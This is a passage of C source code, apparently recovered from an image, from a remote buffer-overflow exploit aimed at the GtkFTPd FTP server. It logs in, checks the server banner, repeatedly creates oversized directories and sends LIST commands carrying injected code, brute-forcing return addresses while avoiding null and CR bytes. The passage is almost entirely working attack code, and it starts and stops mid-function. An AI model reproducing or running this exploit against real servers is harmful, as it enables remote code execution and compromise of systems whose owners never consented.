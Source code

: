      ftp_printf(sock,"RMD %s\r\n",basedir);
     ftp_read(sock);
     ftp_printf(sock,"QUIT\r\n");
     ftp_read(sock);
     return;
    }
    void ftp_read(int sock){
     char *buf;
     if(!(buf=(char *)malloc(1024+1)))
      printe("ftp_read(): allocating memory failed.",1);
     memset(buf,0x0,1024);
     read(sock,buf,1024);
     filter_text(buf);
     if(!no_io)
      printf("<- %s\n",buf);
     /* some initial reply checking, not too much. */
     if(!ftp_i)
      if(!strstr(buf,"GtkFTPd"))
       printe("this exploit is only for GtkFTPd, failed.",1);
     if(ftp_i==2)
      if(strncmp(buf,"230",3))
       printe("invalid username/password, failed.",1);
     if(ftp_i==3)
      if(strncmp(buf,"250",3))
       printe("invalid writable directory, failed. (try \"/\")",1);
     free(buf);
     ftp_i++; /* increase the response identifier. */
     return;
    }
    void ftp_parse(int sock){
     unsigned int offset=0;
     ftp_read(sock); /* get the banner. */
     ftp_printf(sock,"USER %s\r\n",user);
     ftp_read(sock);
     ftp_printf(sock,"PASS %s\r\n",pass);
     ftp_read(sock);
     ftp_printf(sock,"CWD %s\r\n",writedir);
     ftp_read(sock);
     basedir=getbdir(); /* tmp dir of our own to use. */
     ftp_printf(sock,"MKD %s\r\n",basedir);
     ftp_read(sock);
     ftp_printf(sock,"CWD %s\r\n",basedir);
     ftp_read(sock);
     while(offset<(attempts*400)){ /* if it hasn't yet, it's not going to. */
      /* slight null-byte/CR check, only needs to check the last byte. */
      if((!reverse&&!((baseaddr-offset)&0xff))||(reverse&&!((baseaddr+offset)
      &0xff))||(!reverse&&((baseaddr-offset)&0xff)=='\n')||(reverse&&
      ((baseaddr+offset)&0xff)=='\n')){
       printf("[!] brute address contains null-byte/CR, increasing offset "
       "by one byte.\n");
       offset++; /* one byte off if reversed won't hurt here. (401) */
      }
      /* make the evil oversized directory. (255 or less bytes) */
      ftp_printf(sock,"MKD %s\r\n",getdir(offset));
      ftp_read(sock);
      /* date+directory exceeds 256 byte buffer, the exploit. */
      sleep(1); /* delay insurance. */
      ftp_printf(sock,"LIST -%s\r\n",getcode());
      /* nothing to read here, and gtkftpd processes (the exploit) */
      /* before the ftp list connection is made, making it */
      /* pointless to view the list. */
      sleep(1); /* delay insurance, again, just to be sure. */
      /* delete directory, multiples will cause failure(s). */
      ftp_printf(sock,"RMD %s\r\n",getdir(offset));